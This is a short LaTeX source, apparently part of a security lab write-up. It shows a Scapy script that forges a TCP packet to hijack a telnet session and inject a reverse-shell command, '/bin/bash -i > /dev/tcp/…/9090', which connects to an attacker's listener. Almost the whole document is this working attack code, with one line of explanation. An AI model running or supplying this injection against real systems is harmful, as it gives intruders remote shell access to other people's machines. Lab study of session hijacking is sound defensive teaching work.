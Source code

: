 \documentclass{article}
\newcommand{\code}[1]{{\ttfamily #1}}
\begin{document}
\subsection{Creating Reverse Shell using TCP Session Hijacking}
All the same except the data we attached. Using Scapy for convenience.
Scapy:
\begin{tlist}{2}
  \item[]
  \code{
\#!/usr/bin/python3
from scapy.all import *\\
import binascii\\
\vspace{12pt}\\
ip = IP(src='192.168.137.2', dst='192.168.137.172')\\
tcp = TCP(sport=41190, dport=23, flags="AP", seq=150966078, ack=333437326)\\
data = '/bin/bash -i > /dev/tcp/192.168.137.205/9090 0<\&1 2>\&1\textbackslash{r}'\\
pkt = ip/tcp/data\\
ls(pkt)\\
send(pkt,verbose=0)
  }
\end{tlist}
\href{https://i.loli.net/2018/09/13/5b99d00b53a5b.png}{Attacker}.
\end{document}
